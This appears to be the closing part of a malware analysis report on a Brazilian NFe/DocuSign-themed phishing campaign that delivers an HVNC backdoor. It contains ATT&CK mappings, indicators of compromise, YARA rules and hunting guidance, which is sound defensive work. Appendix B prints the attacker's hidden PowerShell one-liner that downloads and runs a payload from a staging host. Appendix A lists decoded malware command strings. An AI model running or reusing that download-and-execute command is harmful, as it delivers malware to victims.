
>*Figure 24. ANY.RUN TI Lookup - Analyses tab showing related submissions across the campaign timeline.*

*Follow-up queries listed in Section 12.1 (targeting 5.230.54.41, the additional phishing domains, and the ClickFix vector specifically) were not yet executed at the time of this report and are recommended next steps (Section 17.1).*

## MITRE ATT&CK Mapping

| **Tactic**                   | **Technique ID**                                   | **Technique Name**                                | **Evidence**                                                                                                                                                                   |
|------------------------------|----------------------------------------------------|---------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Reconnaissance               | T1592 (env. fingerprint, page-level)               | Gather Victim Host Information                    | Lure page's silent telemetry beacon (UA, resolution, timezone) sent before payload release                                                                                     |
| Initial Access               | T1566.002                                          | Phishing: Spearphishing Link                      | Fake DocuSign / NFe delivery-notice page as the entry vector                                                                                                                   |
| Defense Evasion              | T1027                                              | Obfuscated Files or Information                   | ZIP-in-disguise, MIME override, nested single-byte XOR string obfuscation with context-specific keys                                                                           |
| Defense Evasion              | T1036.005                                          | Masquerading: Match Legitimate Name or Location   | LNK icon spoofed to notepad.exe; UpdateAssistant.exe VersionInfo claims Microsoft Corporation while unsigned; DLL bundle mimics a real software installer                      |
| Defense Evasion              | T1622 / anti-automation (no direct ATT&CK ID)      | Debugger/Environment Evasion                      | navigator.webdriver / headless-browser checks; human-interaction gating before payload release                                                                                 |
| Defense Evasion              | T1518.001                                          | Security Software Discovery                       | 20+ hardcoded AV/EDR process names, checked via Toolhelp32 snapshot                                                                                                            |
| Execution                    | T1204.002                                          | User Execution: Malicious File                    | Victim double-clicks the disguised .lnk                                                                                                                                        |
| Execution                    | T1059.001                                          | Command and Scripting Interpreter: PowerShell     | Hidden, execution-policy-bypassed PowerShell one-liner                                                                                                                         |
| Command and Control          | T1105                                              | Ingress Tool Transfer                             | PowerShell Invoke-WebRequest pulling the NSIS loader from the Azure staging host                                                                                               |
| Command and Control          | T1573 (custom config, not full-channel encryption) | Encrypted/Obfuscated Configuration                | XOR-protected C2 host string embedded in the final payload                                                                                                                     |
| Command and Control          | T1571                                              | Non-Standard Port                                 | Raw TCP C2 on port 27015 (Source-engine game port), not HTTP/HTTPS                                                                                                             |
| Command and Control          | T1095                                              | Non-Application Layer Protocol                    | Custom raw-TCP protocol rather than HTTP/WebSocket                                                                                                                             |
| Collection                   | T1113                                              | Screen Capture                                    | GDI BitBlt/GetDIBits + OpenCV-backed frame queue                                                                                                                               |
| Collection                   | T1056.001                                          | Input Capture: Keylogging                         | GetAsyncKeyState/GetKeyboardState polling imports                                                                                                                              |
| Collection                   | T1539                                              | Steal Web Session Cookie                          | Hardcoded targeting of Firefox cookies.sqlite                                                                                                                                  |
| Collection                   | T1217                                              | Browser Information Discovery                     | Hardcoded targeting of Firefox places.sqlite / permissions.sqlite                                                                                                              |
| Command and Control / Impact | T1219 (closest analogue)                           | Remote Access Software (custom HVNC)              | Hidden-desktop + SendInput architecture functioning as an unauthorized remote-access channel                                                                                   |
| Persistence                  | T1547.001                                          | Boot or Logon Autostart Execution: Startup Folder | AppUpdateHelper.lnk dropped into the current user's Start Menu \\ Programs \\ Startup folder, pointing to a self-relocated payload copy (confirmed dynamically, Section 8.5.3) |
| Defense Evasion              | T1036.005 (persistence-stage recurrence)           | Masquerading: Match Legitimate Name or Location   | Relocated persistence copy renamed to AppUpdateHelper.exe, matching the mutex-name convention                                                                                  |

## Indicators of Compromise

### File Hashes

| **Stage**                                                   | **Filename**                                                      | **SHA-256**                                                                                                |
|-------------------------------------------------------------|-------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------|
| 2 - ZIP dropper (build 1, Samsung decoy)                    | DANFE_SAMSUNG_ELET_AM_CNPJ...zip / .nfe                           | e4d637f884f5babea6525266e1cb6ab332a16a446d6084dd51b4222540c1f16c                                           |
| 2 - ZIP dropper (build 2, Motorola decoy)                   | MOTOROLA_MOB_COM_NFe_2026-07-16_217816240.zip                     | 97f35ba586fc121590c867b4d6707777fbeca2ace5ad077807ec806540bb47cd                                           |
| 2 - LNK dropper (build 2, in-archive)                       | NF_Eletronica999147237654.lnk                                     | Not independently hashed - identified via ZIP CRC32 0x3F6F7598 (compressed 1,059 B / uncompressed 2,752 B) |
| 4 - Final payload (build 1, statically analyzed)            | UpdateAssistant.exe                                               | 5fbfc7929858c3c3d79637db857525695db3c0f41b9bf2a7b964c26b7226bde3                                           |
| 4 - Final payload (build 2, dynamically captured)           | UpdateAssistant.exe / AppUpdateHelper.exe (post-persistence copy) | debf48e690abd4288e5f76fa7e9f98a9fb3411171eba82906ef0d2bf1ef2dd6d                                           |
| 4 - Persistence shortcut (build 2)                          | AppUpdateHelper.lnk                                               | 25db85830d86cafbb93a660242f8b4017273cc4612e94dd7a8af29c948651bbe                                           |
| 3 - Cover DLL: vcruntime140.dll (build 2, relocated copy)   | vcruntime140.dll                                                  | d1f4225df2cd877dbf130d5668a021dce3f94118455ff5ec952061c30afc9ce7                                           |
| 3 - Cover DLL: vcruntime140_1.dll (build 2, relocated copy) | vcruntime140_1.dll                                                | 1f2d41c4aa5db0bc33ebf7b66d72943a817d7ce6cbe880502a9403823633093f                                           |
| 3 - Cover DLL: concrt140.dll (build 2, relocated copy)      | concrt140.dll                                                     | 54716f0738af891f283d213b5c8d11b25896bb8ee3097d301eae718560cf974e                                           |
| 3 - Cover DLL: msvcp140.dll (build 2, relocated copy)       | msvcp140.dll                                                      | 7c26614e1d733892c2deac7e245ce115504b1d80592dd0a01b08e3e5a55f89ca                                           |

*Build 1 and Build 2 of the final payload (UpdateAssistant.exe) are behaviorally and structurally identical (same capability set, same import table pattern, same C2 configuration mechanism) but have different SHA-256 hashes and PE timestamps close to their respective capture dates - confirming the payload is recompiled per campaign wave. Hash-based detection must therefore be paired with the behavioral YARA rules in Section 15 and the hunting logic in Section 16.*

### Network Indicators

| **Indicator**                                                                  | **Type**                    | **Role**                                                                                                                                                          | **Confidence**                                           |
|--------------------------------------------------------------------------------|-----------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------|
| 40.124.169.27                                                                  | IPv4                        | Stage-2 payload staging (Azure)                                                                                                                                   | High                                                     |
| 5.230.249.49:27015 / :27017                                                    | IPv4:Port                   | Live C2 endpoint (raw TCP/HVNC beacon) - port confirmed to vary by build (27015 statically decoded, 27017 live-observed)                                          | High                                                     |
| VERSION:1.2.0.4.71                                                             | C2 protocol content string  | Internal build/family version reported in the plaintext HVNC check-in banner - infrastructure-independent detection signature (Section 10.2.1)                    | High                                                     |
| "HVNC-" / "CLIENT_ID:HVNC-" / "IDENTIFIER_CHANNEL:"                            | C2 protocol content strings | Structural protocol markers suitable for network-content (Suricata) detection independent of C2 IP/port rotation                                                  | High                                                     |
| 5.230.249.49 (port 80/443)                                                     | IPv4                        | Also observed serving stage-2 payloads directly (see dl.php entries below) - not staging-only                                                                     | High                                                     |
| 5.230.54.41                                                                    | IPv4                        | Secondary delivery / co-hosted phishing                                                                                                                           | High                                                     |
| receitafederal.digital                                                         | Domain                      | NFe-themed delivery lure domain                                                                                                                                   | High                                                     |
| aapj.digital                                                                   | Domain                      | Banco do Brasil PJ phishing clone (co-hosted, GHOSTnet)                                                                                                           | Medium (cluster link)                                    |
| gerenciadorcaixa.digital                                                       | Domain                      | Caixa Econômica Federal phishing clone - same “gerenciador[banco].digital” naming convention as aapj.digital                                                    | Medium-High (cluster link, 2nd independent confirmation) |
| hxxp://5.230.249.49/dl.php?f=cresol.exe&k=chave_tecl_cresol                    | URL                         | Additional stage-2 delivery URL on the C2 host, Sicredi/Cresol-themed lure variant                                                                                | High                                                     |
| hxxp://5.230.249.49/dl.php?f=payed.exe                                         | URL                         | Additional stage-2 delivery URL on the C2 host, generic-themed lure variant                                                                                       | High                                                     |
| hxxp://40.124.169.27/dl.php?f=NotaFiscal...&k=nfe_valid_access_key_2026_secure | URL                         | Stage-2 delivery URL, NFe-themed (confirmed twice, 08 Jul and 15 Jul 2026)                                                                                        | High                                                     |
| nfe_valid_access_key_2026_secure / chave_tecl_cresol                           | URL parameter values        | Delivery-server access tokens - the k= parameter naming pattern (chave_/key_ + lure theme) is a strong kit/campaign pivot independent of the current staging IP | High                                                     |
| 0a4b2aff1c2ebf8b                                                               | HTML comment string         | Phishing kit build/campaign marker on the DocuSign lure page                                                                                                      | Medium                                                   |

### Host-Based Indicators

| **Indicator**                                                                                      | **Notes**                                                                                                                                                                                      |
|----------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| %USERPROFILE%\Desktop\\USERNAME%.exe                                                               | Stage-3 drop path/filename pattern (dynamic per victim; observed as admin.exe in the 2nd captured build)                                                                                       |
| LNK filename patterns: Comprovante_NFe*.lnk / NF_Eletronica*.lnk                                 | Stage-2 dropper naming convention - confirmed rotating across at least two templates                                                                                                           |
| LNK Machine ID: servee                                                                             | Correlates to Azure staging host NetBIOS name (build 1)                                                                                                                                        |
| LNK Volume Serial: 0x24E4EC72                                                                      | Builder-host pivot for other LNKs from the same kit (build 1)                                                                                                                                  |
| %APPDATA%\Roaming\Programs\Common\AppUpdateHelper.exe                                              | Persistence copy of the final payload (confirmed, Section 8.5.3)                                                                                                                               |
| %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\AppUpdateHelper.lnk                | Persistence shortcut (Startup folder, T1547.001)                                                                                                                                               |
| Mutex prefix pattern: Global\AppUpdateHelper_* / Global\WinSvc_*                               | Confirmed via two independent builds (07 Apr and 02 Apr 2026 submissions); suffix is per-build/random, prefix is stable - use regex Global\\(AppUpdateHelper\|WinSvc)_[A-F0-9]+ for hunting |
| Alternate final-payload filename: SysMaintenance.exe (folder: SystemMaintenance)                   | Confirms binary/folder naming rotates alongside the AppUpdateHelper/UpdateAssistant convention                                                                                                 |
| Suricata: “hunting [any.run] windows pc hostname observed in outbound connection” (T1592)        | The C2 beacon appears to transmit the victim hostname during handshake - not yet confirmed via static code review                                                                              |
| Suricata: “suspicious [any.run] possible admin username observed in outbound connection” (T1571) | The C2 beacon appears to transmit the victim username during handshake - not yet confirmed via static code review                                                                              |

## YARA Rules

The following rules were authored from the indicators documented in this report and should be validated against a larger corpus (including any samples surfaced via Section 12) before production deployment, to tune out potential false positives - particularly rule 3, which relies partly on legitimate, commonly bundled redistributable DLL names.

#### Stage-2 LNK Dropper

```shell
rule LNK_NFe_Phishing_PowerShell_Dropper
{
meta:
description = "Detects the NFe/DANFE-themed LNK dropper launching a hidden PowerShell downloader"
author = "0xOlympus"
date = "2026-07-27"
reference = "Fake DocuSign / NFe phishing to HVNC backdoor campaign"

strings:
$ps1 = "-WindowStyle Hidden" ascii wide
$ps2 = "-ExecutionPolicy Bypass" ascii wide
$dl = "Invoke-WebRequest" ascii wide
$tok = "nfe_valid_access_key" ascii wide
$out = "dl.php?f=" ascii wide
$ext = ".lnk" ascii wide

condition:
uint16(0) == 0x004C and // LNK header magic (class ID prefix)
filesize < 10KB and
3 of ($ps1, $ps2, $dl, $tok, $out)
}
```

#### Stage-4 Backdoor (UpdateAssistant.exe)

```shell
rule Trojan_HVNC_UpdateAssistant_Masquerade
{
meta:
description = "Detects the unsigned HVNC/keylogger backdoor masquerading as Windows Update Assistant"
author = "0xOlympus"
date = "2026-07-27"
hash = "5fbfc7929858c3c3d79637db857525695db3c0f41b9bf2a7b964c26b7226bde3"

strings:
$ff1 = "cookies.sqlite" ascii
$ff2 = "places.sqlite" ascii
$ff3 = "permissions.sqlite" ascii

$av1 = "avastui.exe" ascii
$av2 = "bdagent.exe" ascii
$av3 = "mcshield.exe" ascii
$av4 = "360tray.exe" ascii
$av5 = "ekrn.exe" ascii

$ver = "Windows Update Assistant" wide

// XOR(0x37)-encoded C2 host "5.230.249.49"
$c2cfg = { 02 19 05 04 07 19 05 03 0E 19 03 0E }

condition:
uint16(0) == 0x5A4D and
(2 of ($ff*)) and
(3 of ($av*)) and
($ver or $c2cfg)
}
```

#### Stage-3 NSIS Loader Bundle

```shell
rule NSIS_Fake_UpdateAssistant_Bundle
{
meta:
description = "Detects the NSIS SFX bundle dropping UpdateAssistant.exe alongside cover-noise redistributable DLLs"
author = "0xOlympus"
date = "2026-07-27"

strings:
$plugdir = "$PLUGINSDIR" ascii
$payload = "UpdateAssistant.exe" ascii wide
$cover1 = "opencv_world4120.dll" ascii wide
$cover2 = "concrt140.dll" ascii wide
$cover3 = "vcruntime140.dll" ascii wide

condition:
uint16(0) == 0x5A4D and
$plugdir and $payload and
2 of ($cover*)
}
```

## Detection and Hunting Recommendations

### Network-Layer Detections

- Alert on outbound TCP connections to 5.230.249.49 (any port) and specifically to destination port 27015 where the payload/protocol does not match legitimate Source-engine/Steam traffic (e.g. process is not steam.exe/hl2.exe/csgo.exe/etc., or traffic originates from a server/enterprise endpoint that has no business running game clients).

- Flag outbound HTTP requests containing the literal query-string token nfe_valid_access_key as a static, high-confidence campaign/kit indicator, independent of the current staging IP.

- Monitor for DNS/HTTP requests to receitafederal.digital, aapj.digital, and any newly registered domains resolving into the 5.230.0.0/16 (GHOSTnet GmbH, AS12586) range.

### Host-Layer Detections

- Alert on PowerShell processes launched with the combination -WindowStyle Hidden -ExecutionPolicy Bypass whose parent process is explorer.exe and whose command line references a *.lnk-adjacent working directory, especially where the command line also contains Invoke-WebRequest and Start-Process in the same line.

- Alert on any process named UpdateAssistant.exe (or similarly “Windows Update”-themed) that is unsigned and was not launched from %WINDIR%\System32\\ or a known Windows Update binary path.

- Hunt for CreateDesktopA/OpenDesktopA calls immediately followed by SendInput and GDI screen-capture API sequences (BitBlt/GetDIBits) within the same unsigned process - a strong behavioral signature for custom HVNC implementations generally, not just this sample.

- Hunt for process access to %APPDATA%\Mozilla\Firefox\Profiles\\\cookies.sqlite, places.sqlite, and permissions.sqlite by processes other than firefox.exe itself.

- Alert on new files written to %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\\ by any process other than a known installer/MSI, particularly .lnk files whose target path resides under %APPDATA%\Roaming\Programs\Common\\ - this is the confirmed persistence mechanism for this family (Section 8.5.3).

- Hunt for named mutexes matching the pattern Global\\(AppUpdateHelper|WinSvc)_[A-F0-9]{4,8} at process creation - confirmed stable across at least three independent builds spanning March–July 2026.

### Email / Web Gateway

- Block/flag inbound links or attachments impersonating DocuSign that do not resolve to docusign.com/docusign.net domains, particularly where the page requests JavaScript execution before revealing a download link (common anti-sandbox pattern also seen here).

- Flag ZIP downloads served via a JSON API response (base64-encoded body) rather than a direct file download - an increasingly common technique to evade URL/extension-based network filtering.

### User Awareness

- Brazilian organizations processing high volumes of NFe/DANFE documents should be briefed on this lure theme specifically, given the use of a real, recognizable company name (Samsung Eletrônica da Amazônia) in the decoy content to increase click-through trust.

## Analytic Confidence and Outstanding Questions

This section documents explicit confidence levels and open items so downstream readers do not over-index on findings that remain partially verified.

| **Finding**                                                              | **Confidence**   | **Rationale / Outstanding work**                                                                                                                                                                                                                                                                             |
|--------------------------------------------------------------------------|------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Full infection chain (Stage 1→4) as documented                           | High             | Each hop independently verified via static parsing, hash matching, and/or sandbox execution                                                                                                                                                                                                                  |
| C2 host/port (5.230.249.49; port 27015 or 27017 depending on build)      | High             | Host directly decoded from the binary's XOR-obfuscated configuration and cross-confirmed live via Shodan; port confirmed to vary by build via two independent dynamic detonations plus static decoding                                                                                                       |
| LNK builder host = Azure staging host correlation                        | High             | Exact string match (“servee”) between two independently obtained data sources                                                                                                                                                                                                                                |
| Attribution to Silver Fox / Winos4.0-adjacent cluster                    | Medium           | Consistent tradecraft (HVNC architecture, layered XOR obfuscation, NSIS delivery, AV-aware low-priority evasion) with prior analyst casework, but no direct code-sharing/signature overlap formally diffed against a reference Winos4.0 sample in this report                                                |
| Chromium credential-store (Login Data/Web Data) targeting                | Unconfirmed      | No static plaintext strings found; requires dynamic string-resolution tracing or a broader static string sweep with the same XOR key(s) applied programmatically across the full .rdata section                                                                                                              |
| Persistence mechanism                                                    | High - Confirmed | Resolved via dynamic detonation (Section 8.5.3): Startup-folder LNK (AppUpdateHelper.lnk) pointing to a self-relocated, renamed payload copy (AppUpdateHelper.exe) in %APPDATA%\Roaming\Programs\Common\\                                                                                                    |
| Mutex name pattern                                                       | Medium-High      | Exact runtime values (Global\AppUpdateHelper_E7A2F, Global\WinSvc_4CF8B2E6) recovered via ANY.RUN TI Lookup Synchronization data across two separate builds; the fixed prefix (AppUpdateHelper_ / WinSvc_) appears stable while the suffix is per-build - use the prefix, not the full string, for hunting |
| Per-build payload hash instability                                       | High             | Two independently captured UpdateAssistant.exe builds (5fbfc792… statically analyzed vs. DEBF48E6… dynamically captured) share identical capability/behavior but differ in SHA-256, confirming the payload is recompiled per campaign wave; hash IOCs alone will not scale for detection                     |
| NFe campaign and Brazilian-bank-themed phishing = same operator/reseller | Medium-High      | Co-hosted plus a second independent domain (gerenciadorcaixa.digital) sharing the same naming convention (Section 12.2); still needs TLS-certificate reuse or WHOIS registrant confirmation for a definitive merge                                                                                           |
| C2 handshake transmits victim hostname/username                          | High - Confirmed | Directly captured in plaintext via ANY.RUN Network Stream (Section 10.2): COMPUTER:/USER:/OS: fields sent unprompted in the HVNC check-in banner, alongside a full hardware fingerprint and AV-detection result                                                                                              |

## Appendix A - Decoded XOR Strings Reference

| **Location**                     | **XOR key** | **Raw (partial)**                   | **Decoded**                  |
|----------------------------------|-------------|-------------------------------------|------------------------------|
| sub_14000E540 / byte_140023778   | 0x37        | 02 19 05 04 07 19 05 03 0E 19 03 0E | 5.230.249.49                 |
| sub_140019CA0 (len=6 branch)     | 0x13        | p~w=vkv3<p3‘grag3p{a\|~v=vkv        | cmd.exe /c start chrome.exe  |
| sub_140019CA0 (len=7 branch)     | 0x13        | p~w=vkv3<p3‘grag3uzavu\|k=vkv       | cmd.exe /c start firefox.exe |
| sub_140019CA0 (len=4 branch)     | 0x13        | p~w=vkv3<p3‘grag3~‘vwtv=vkv         | cmd.exe /c start msedge.exe  |
| sub_140019CA0 (len=5, variant 1) | 0x13        | p~w=vkv3<p3‘grag3qarev=vkv          | cmd.exe /c start brave.exe   |
| sub_140019CA0 (len=5, variant 2) | 0x13        | p~w=vkv3<p3‘grag3\|cvar=vkv         | cmd.exe /c start opera.exe   |

## Appendix B - Full Stage-2 PowerShell Command

```powershell
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command
"$url='hxxp://40.124.169.27/dl.php?f=NotaFiscal132421323344432026.exe
&k=nfe_valid_access_key_2026_secure';
$out="$env:USERPROFILE\Desktop\\env:USERNAME.exe";
try{
Invoke-WebRequest -Uri $url -OutFile $out -UseBasicParsing;
Start-Process $out
}catch{}"
```